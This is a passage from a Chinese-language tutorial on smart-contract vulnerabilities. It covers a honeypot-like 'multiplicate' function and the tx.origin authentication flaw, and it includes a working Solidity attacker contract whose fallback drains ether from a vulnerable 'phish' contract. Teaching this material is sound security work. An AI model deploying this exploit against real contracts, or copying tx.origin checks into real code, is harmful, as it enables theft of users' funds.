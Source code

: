 ```solidity
        require(msg.sender == Owner);
        payable(Owner).transfer(address(this).balance);
    }

    function multiplicate(address adr) public payable {
        if (msg.value >= address(this).balance) {
            payable(adr).transfer(address(this).balance + msg.value);
        }
    }
}
```

这里的 `multiplicate` 函数 `msg.value >= address(this).balance` 永远不可能为真。

### tx.origin

用交易的发起者作为判断条件，可能会被精心设计的回退函数利用，转而调用其他的合约，`tx.origin` 仍然是最初的交易发起者，但是执行人却已经改变了。

如下面 `phish` 合约中的 `withdrawAll` 函数的要求的是 `tx.origin = owner`，那么如果是 `owner` 向 `TxOrigin` 合约发送以太币，就会触发 `fallback` 函数，在 `attack` 函数中调用 `withdrawAll` 函数，窃取以太币。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
contract phish {
    address public owner;
    constructor () {
    owner = msg.sender;
    }
    receive() external payable{}

    fallback() external payable{}

    function withdrawAll (address payable _recipient) public {
        require(tx.origin == owner);
        _recipient.transfer(address(this).balance);
    }
    function getOwner() public view returns(address) {
        return owner;
    }
}

contract TxOrigin {
    address  owner;
    phish PH;

    constructor(address phishAddr) {
        owner = msg.sender;
        PH=phish(payable(phishAddr));
    }

    function attack() internal {
        address phOwner = PH.getOwner();
        if (phOwner == msg. sender) {
            PH.withdrawAll(payable(owner));
        } else {
            payable(owner).transfer(address(this). balance);
        }
    }
    fallback() external payable{
        attack();
    }
}
```
